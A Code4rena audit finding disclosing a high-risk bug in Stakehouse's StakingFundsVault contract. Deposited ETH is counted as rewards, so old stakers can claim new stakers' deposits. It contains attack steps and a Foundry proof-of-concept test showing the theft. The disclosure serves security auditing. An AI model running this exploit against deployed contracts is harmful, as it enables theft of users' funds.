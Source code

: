 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- H-18

# [Old stakers can steal deposits of new stakers in `StakingFundsVault`](https://github.com/code-423n4/2022-11-stakehouse-findings/issues/255) 

# Lines of code

https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/StakingFundsVault.sol#L75
https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/StakingFundsVault.sol#L123
https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/StakingFundsVault.sol#L63


# Vulnerability details

## Impact
Stakers to the MEV+fees vault can steal funds from the new stakers who staked after a validator was registered and the derivatives were minted. A single staker who staked 4 ETH can steal all funds deposited by new stakers.
## Proof of Concept
`StakingFundsVault` is designed to pull rewards from a Syndicate contract and distributed them pro-rata among LP token holders ([StakingFundsVault.sol#L215-L231](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/StakingFundsVault.sol#L215-L231)):
```solidity
if (i == 0 && !Syndicate(payable(liquidStakingNetworkManager.syndicate())).isNoLongerPartOfSyndicate(_blsPubKeys[i])) {
    // Withdraw any ETH accrued on free floating SLOT from syndicate to this contract
    // If a partial list of BLS keys that have free floating staked are supplied, then partial funds accrued will be fetched
    _claimFundsFromSyndicateForDistribution(
        liquidStakingNetworkManager.syndicate(),
        _blsPubKeys
    );

    // Distribute ETH per LP
    updateAccumulatedETHPerLP();
}

// If msg.sender has a balance for the LP token associated with the BLS key, then send them any accrued ETH
LPToken token = lpTokenForKnot[_blsPubKeys[i]];
require(address(token) != address(0), "Invalid BLS key");
require(token.lastInteractedTimestamp(msg.sender) + 30 minutes < block.timestamp, "Last transfer too recent");
_distributeETHRewardsToUserForToken(msg.sender, address(token), token.balanceOf(msg.sender), _recipient);
```

The `updateAccumulatedETHPerLP` function calculates the reward amount per LP token share ([SyndicateRewardsProcessor.sol#L76](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/SyndicateRewardsProcessor.sol#L76)):
```solidity
function _updateAccumulatedETHPerLP(uint256 _numOfShares) internal {
    if (_numOfShares > 0) {
        uint256 received = totalRewardsReceived();
        uint256 unprocessed = received - totalETHSeen;

        if (unprocessed > 0) {
            emit ETHReceived(unprocessed);

            // accumulated ETH per minted share is scaled to avoid precision loss. it is scaled down later
            accumulatedETHPerLPShare += (unprocessed * PRECISION) / _numOfShares;

            totalETHSeen = received;
        }
    }
}
```

And the `_distributeETHRewardsToUserForToken` function distributes rewards to LP token holders ([SyndicateRewardsProcessor.sol#L51](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/SyndicateRewardsProcessor.sol#L51)):
```solidity
function _distributeETHRewardsToUserForToken(
    address _user,
    address _token,
    uint256 _balance,
    address _recipient
) internal {
    require(_recipient != address(0), "Zero address");
    uint256 balance = _balance;
    if (balance > 0) {
        // Calculate how much ETH rewards the address is owed / due 
        uint256 due = ((accumulatedETHPerLPShare * balance) / PRECISION) - claimed[_user][_token];
        if (due > 0) {
            claimed[_user][_token] = due;

            totalClaimed += due;

            (bool success, ) = _recipient.call{value: due}("");
            require(success, "Failed to transfer");

            emit ETHDistributed(_user, _recipient, due);
        }
    }
}
```

To ensure that rewards are distributed fairly, these functions are called before LP token balances are updated (e.g. when making a deposit [StakingFundsVault.sol#L123](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/StakingFundsVault.sol#L123)).

However, this rewards accounting algorithm also counts deposited tokens:
1. to stake tokens, users call `depositETHForStaking` and send ETH ([StakingFundsVault.sol#L113](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/StakingFundsVault.sol#L113));
1. `updateAccumulatedETHPerLP` is called in the function ([StakingFundsVault.sol#L123](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/StakingFundsVault.sol#L123));
1. `updateAccumulatedETHPerLP` checks the balance of the contract, which *already includes the new staked amount* ([SyndicateRewardsProcessor.sol#L78](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/SyndicateRewardsProcessor.sol#L78), [SyndicateRewardsProcessor.sol#L94](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/SyndicateRewardsProcessor.sol#L94)).
1. the staked amount is then counted in the `accumulatedETHPerLPShare` variable ([SyndicateRewardsProcessor.sol#L85](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/SyndicateRewardsProcessor.sol#L85)), which is used to calculate the reward amount per LP share ([SyndicateRewardsProcessor.sol#L61](https://github.com/code-423n4/2022-11-stakehouse/blob/5f853d055d7aa1bebe9e24fd0e863ef58c004339/contracts/liquid-staking/SyndicateRewardsProcessor.sol#L61)).

This allows the following attack:
1. a user stakes 4 ETH to a BLS key;
1. the validator with the BLS key gets registered and its derivative tokens get minted;
1. a new user stakes some amount to a different BLS key;
1. the first user calls `claimRewards` and withdraws the stake of the new user.

```solidity
// test/foundry/StakingFundsVault.t.sol
function testStealingOfDepositsByOldStakers_AUDIT() public {
    // Resetting the mocks, we need real action.
    MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyOne, 0);
    MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyTwo, 0);
    liquidStakingManager.setIsPartOfNetwork(blsPubKeyOne, false);
    liquidStakingManager.setIsPartOfNetwork(blsPubKeyTwo, false);

    // Aliasing accounts for better readability.
    address nodeRunner = accountOne;
    address alice = accountTwo;
    address alice2 = accountFour;
    address bob = accountThree;

    // Node runner registers two BLS keys.
    registerSingleBLSPubKey(nodeRunner, blsPubKeyOne, accountFive);
    registerSingleBLSPubKey(nodeRunner, blsPubKeyTwo, accountFive);

    // Alice deposits to the MEV+fees vault of the first key.
    maxETHDeposit(alice, getBytesArrayFromBytes(blsPubKeyOne));

    // Someone else deposits to the savETH vault of the first key.
    liquidStakingManager.savETHVault().depositETHForStaking{value: 24 ether}(blsPubKeyOne, 24 ether);

    // The first validator is registered and the derivatives are minted.
    assertEq(vault.totalShares(), 0);
    stakeAndMintDerivativesSingleKey(blsPubKeyOne);
    assertEq(vault.totalShares(), 4 ether);

    // Warping to pass the lastInteractedTimestamp checks.
    vm.warp(block.timestamp + 1 hours);

    // The first key cannot accept new deposits since the maximal amount was deposited
    // and the validator was register. The vault however can still be used to deposit to
    // other keys.

    // Bob deposits to the MEV+fees vault of the second key.
    maxETHDeposit(bob, getBytesArrayFromBytes(blsPubKeyTwo));
    assertEq(address(vault).balance, 4 ether);
    assertEq(bob.balance, 0);

    // Alice is claiming rewards for the first key.
    // Notice that no rewards were distributed to the MEV+fees vault of the first key.
    assertEq(alice2.balance, 0);
    vm.startPrank(alice);
    vault.claimRewards(alice2, getBytesArrayFromBytes(blsPubKeyOne));
    vm.stopPrank();

    LPToken lpTokenBLSPubKeyOne = vault.lpTokenForKnot(blsPubKeyOne);

    // Alice has stolen the Bob's deposit.
    assertEq(alice2.balance, 4 ether);
    assertEq(vault.claimed(alice, address(lpTokenBLSPubKeyOne)), 4 ether);
    assertEq(vault.claimed(alice2, address(lpTokenBLSPubKeyOne)), 0);

    assertEq(address(vault).balance, 0);
    assertEq(bob.balance, 0);
}
```
## Tools Used
Manual review
## Recommended Mitigation Steps
Consider excluding newly staked amounts in the `accumulatedETHPerLPShare` calculations.